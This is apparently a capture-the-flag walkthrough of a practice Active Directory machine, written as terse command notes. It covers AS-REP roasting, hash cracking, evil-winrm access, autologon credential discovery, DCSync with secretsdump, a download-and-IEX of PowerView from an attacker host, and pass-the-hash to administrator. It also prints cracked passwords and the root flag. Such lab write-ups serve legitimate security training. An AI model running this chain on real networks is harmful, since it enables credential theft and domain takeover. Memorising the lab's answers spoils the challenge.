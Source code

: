 ## User
### Web
```
Go To http://10.129.95.180/about.html
Scroll to bottom
```
#### Interesting Fields
put this in a text file.
```
Bowie Taylor
Sophie Driver
Shaun Coins
Steven Kerb
Hugo Bear
Fergus Smith
```
### Create Username List with #usernameAnarchy
```
git clone https://github.com/urbanadventurer/username-anarchy
cd username-anarchy
./username-anarchy --input-file ../users.txt --select-format FirstLast,firstlast,First.Last,first.last,f.last,flast > ../pot_usersnames.txt
```
### Impacket As-Rep Roast #impacket-GetNPUsers 
```sh
impacket-GetNPUsers 'egotistical-bank.local/' -dc-ip '10.129.95.180' -usersfile pot_usersnames.txt -request
```
### Crack Ticket #hashcat
```sh
hashcat kerbticket_fsmith.txt ~/Downloads/rockyou.txt 
# Thestrokes23
```
### Evil-WinRM for User PWN #evil-winrm 
```sh
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

```winrm
type ../Desktop/user.txt
```
## ROOT
### WinPeas Download for profit #winpeas
[Release Release refs/heads/master 20240519-fab0d0d5 · peass-ng/PEASS-ng (github.com)](https://github.com/peass-ng/PEASS-ng/releases/tag/20240519-fab0d0d5)
```sh
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240519-fab0d0d5/winPEASany.exe
```
### WinRM winpeas upload #winpeas 
```winrm
upload /home/kali/Desktop/Sauna/winPEASany.exe
./winPEASany.exe
```
This gives us a User as AutoLogon credentials are found #credentials-found
```
user:EGOTISTICALBANK\svc_loanmgr
password: Moneymakestheworldgoround!
```
### WinRM Login as AutoLogon  Powerview check permissions
#failure-winrm
#powerview
```sh
evil-winrm -i 10.129.95.180 -u svc_loanmgr -p Moneymakestheworldgoround!
```
[DCSync | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
```winrm
(New-Object System.Net.WebClient).DownloadString('http://10.10.14.5:8000/PowerView.ps1') | IEX
Get-ObjectAcl -DistinguishedName "dc=EGOTISTICAL-BANK,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```
This gives us:
```
AceType               : AccessAllowed
ObjectDN              : DC=EGOTISTICAL-BANK,DC=LOCAL
ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, GenericRead, WriteDacl, WriteOwner
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2966785786-3096785034-1186376766
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2966785786-3096785034-1186376766-512
AccessMask            : 917949
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : DC=EGOTISTICAL-BANK,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2966785786-3096785034-1186376766
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2966785786-3096785034-1186376766-519
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : DC=EGOTISTICAL-BANK,DC=LOCAL
ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, Delete, GenericRead, WriteDacl, WriteOwner
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2966785786-3096785034-1186376766
InheritanceFlags      : ContainerInherit
BinaryLength          : 24
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-544
AccessMask            : 983485
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed

**AceType               : AccessAllowed**
ObjectDN              : DC=EGOTISTICAL-BANK,DC=LOCAL
**ActiveDirectoryRights : GenericAll**
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2966785786-3096785034-1186376766
InheritanceFlags      : None
BinaryLength          : 20
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-18
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
**AceQualifier          : AccessAllowed**

```

```winrm
(get-acl).access
exit

```
reveals:
#AD-permissions-permissive
```
FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : True
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : True
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : EGOTISTICALBANK\svc_loanmgr
IsInherited       : True
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : None
```
### DCSync with #impacket-secretsdump
```sh
impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!@10.129.95.180' -outputfile dcsynchashes.txt
```
Crack the hashes
#hashcat
```sh
hashcat dcsynchashes.txt.ntds.kerberos ~/Downloads/rockyou.txt
```
### PSExec Privilege Escalation #impacket-psexec

```sh
impacket-psexec administrator@10.129.95.180 -hashes "aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e"
```

```winrm
type C:\Users\Administrator\Desktop\root.txt
```
178cd16fd283bda81abb087e93796dd0